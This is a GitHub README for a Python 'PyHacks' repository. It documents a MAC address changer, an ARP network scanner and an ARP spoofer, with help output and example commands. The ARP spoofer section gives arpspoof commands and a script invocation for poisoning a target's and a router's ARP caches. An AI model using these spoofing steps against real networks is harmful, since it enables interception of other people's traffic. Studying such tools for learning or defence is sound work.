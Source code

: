 ## PyHacks

This PyHacks repository contains more networking and hacking related python scripts for linux system

---
1. mac_changer.py

this programs helps to change your MAC address (MEDIA ACCESS CONTROL) for your devices using python in ` linux [only]`

- `prerequisites : python3`
- get interface name for the devices using `ifconfig`
- run this py script as root user , use this cmd  to get root privilege ` sudo su ` and specify interface and new mac address
`python3 mac_changer --interface wlan1 --mac 11:22:33:44:55:66`

```
shell > python3 mac_changer.py --help

python3 mac_changer --help
Usage: mac_changer.py [options]

Options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface=INTERFACE
                        Used to select Interface for changing MAC address
  -m NEW_MAC, --mac=NEW_MAC
                        Used to select New MAC addresss

````
this scripts just run linux cmds in background for changing current mac address so this script works only on linux

[FAQ]
 if use python2 to run this script `subprocess.check_output()` and `subprocess.run()`is not defined in python2 , then install python3 `sudo apt install python3`
 subprocess.call() has been changed to subprocess.run() in python3
 ```
File "mac_changer.py", line 29, in get_mac_address
    ifconfig_result =  str(subprocess.check_output(["ifconfig",options.interface]),'ascii')

```
---
### Network Scanner

This Program helps to discover devices in your wifi network

- Connect the Target Wifi Network with your devices , then cmd
`ifconfig` and get the ip address (inet) eg: `192.168.1.10`

```py
python3 network_scanner  --range 192.168.1.1/24
```
This Program , Sends packets to `192.168.1.1` to `192.168.1.254`
Print the discovered Devices ip_address and MAC_address in that target network

[FAQs] if get `ImportError: No module named scapy.all` , then install scapy module 
```
pip install scapy
```
```
Usage: network_scanner.py [options]

Options:
  -h, --help            show this help message and exit
  -r RANGE, --range=RANGE
                        Use -r or --range to Scan Your Wifi Network
```

Network Scanning Using ARP

ARP Protocol is a protocol for mapping IP address to a physical machine that is recognised in the local network

ARP Illustration
- If A , B , C , D , ROUTER  is a network `192.168.43.1/24`
- A is Our machine , which says who has --range `192.168.43.1/24` IP this is ARP request , sends to devices in that network
- C Responds for that request as ARP Response  , like I have `192.168.43.7`  and My MAC address  : `00:11:22:33:44:45` for every other packet also

---
### ARP Spoofer
It's a type of attack in which a macilious actor sends false ARP message over a local network

##### Pre Exisitng ARP Spoofing Script,
Let ARP Spoofing Using `arpspoof` from `dsniff` tool
- First Scan The Local Network and discover Devices over that network , get target machine and router ip address
- Let assume Target be a windows machine , In cmd prompt , note mac address of router using `arp -a` cmd 
- Open 2 Terminal  , this required root privilege 
```
arpspoof -i wlan0 -t 192.168.0.143 192.168.0.1
arpspoof -i wlano0 -t 192.168.0.1 192.168.0.143
```


Note Mac Address of Router `arp -a` , Mac Address of Router was changed to Mac address of our machine.

**To run the script**
```
shell > python3 arp_spoofer.py --help
python3 arp_spoofer.py --help
Usage: arp_spoofer.py [options]

Options:
  -h, --help            show this help message and exit
  -t TARGET_IP , --target=TARGET_IP
                        Used to select Target Machine IP Address 
  -s SPOOF_IP , --spoof=SPOOF_IP
                        Used to select Spoof Machine IP Address (Router)
````

Spoofing Machine is Network Router Scan the network using `network_scanner.py` , find ip address , always router ip_address will be `XXX.XXX.X.1` it starts with 1
```py
python3 arp_spoofer.py -t 192.168.0.14 --s 192.168.0.1
``` 

---
